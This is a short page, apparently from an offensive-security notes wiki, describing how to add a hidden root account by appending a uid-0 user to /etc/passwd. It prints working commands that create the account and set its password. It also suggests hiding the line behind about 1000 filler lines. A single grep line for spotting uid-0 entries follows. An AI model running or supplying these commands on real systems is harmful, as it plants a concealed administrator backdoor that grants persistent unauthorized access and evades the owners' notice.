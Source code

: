 # ⚠ Adding a Root user (Not OPSEC)

{% hint style="danger" %}
This technique IS NOT OPSEC AT ALL.
{% endhint %}

For some reason, it is not important that a user is named “root”, but that it’s uid is 0. So if you create a user with the uid 0, you’ll have root privileges. Multiple users with the same uid but different name isn’t harmful. So combining this with the 1000 scroll lines trick mentioned above, you have to do something like this:

```
echo 'hackr:x:0:0:hackr,,,:/home/hackr:/bin/bash' | sudo tee -a /etc/passwd
printf %sn%s hackr hackr | sudo passwd hackr
```

add 1000 lines to the `passwd` file and do the things above again. To counter:

```
grep ':0:' /etc/passwd
```
